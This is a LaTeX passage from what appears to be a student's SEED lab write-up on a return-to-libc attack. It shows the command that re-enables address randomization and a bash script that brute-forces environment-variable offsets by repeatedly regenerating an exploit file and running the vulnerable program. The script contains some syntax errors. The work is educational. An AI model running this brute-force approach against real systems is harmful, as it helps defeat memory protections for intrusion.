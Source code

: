 \documentclass[14pt]{extarticle}
\begin{document}
\section{Address Randomization}
Now that I have a working exploit, I can turn address randomization back on and attempt the attack again. This might be a bit harder since the address of the environment variable will change every time the program is run. To turn randomization back on I can run the following command:
\begin{lstlisting}[language=sh]
sudo /sbin/sysctl -w kernel.randomize_va_space=2
\end{lstlisting}\cite{seed-retlibc}
Now with randomization back on, I'll have to attempt the attack until the address of the environment variable. To overcome this I can use the same brute force attack that was shown in the last lab. This attack will attempt to execute the attack until it happens to hit the correct address. This is what the brute force code looks like\cite{seed-retlibc}:
\begin{lstlisting}[language=sh]
#!/bin/bash
## brtatk.sh

# The maximum offset of the environment variable to test
max_offset=100

# this will hold the number of seconds that have passed since the start of the program
SECONDS=0
# this will hold the number of times the program has ran
value=0

# offset is tested in a sweep from the negative most offset, to the positive most offset.
# and then it is repeated. So to start I'll set it to the most negative offset.
offset=$(( 0 - $max_offset))

# the loop will go forever, it will need to be canceled by hand to quite
while[1]
  do
	# say the program has ran again
  value=$(( $value + 1))
	# determine how long the program has been running
  duration=$SECONDS
	# determine how many minutes have passed
  min=$(($duration /60))
	# determine how many seconds over the last minute have passed
  sec=$(($duration % 60))
	# increment to the next offset to test, incremented in 2's since the bytes will always be even
	offset=$(($offset + 2))
	# see if the offset has reached the maximum yet
  if [ $offset -gt $max_offset]
    then
		# loop the offset back to negative if the highest offset has already been reached
    offset=$(( 0 - $max_offset))
  fi

	# output the time that has passed since the program has started
  echo "$min minutes and $sec seconds elapsed."
  echo "the program has been running $value times so far."
	# say which offset is being tested this time
  echo "Offset is $offset."
	# rebuild the badfile with the given Offset
  ./exploit $offset
	# test the vulnerable program
  ./retlib
done
\end{lstlisting}
\end{document}
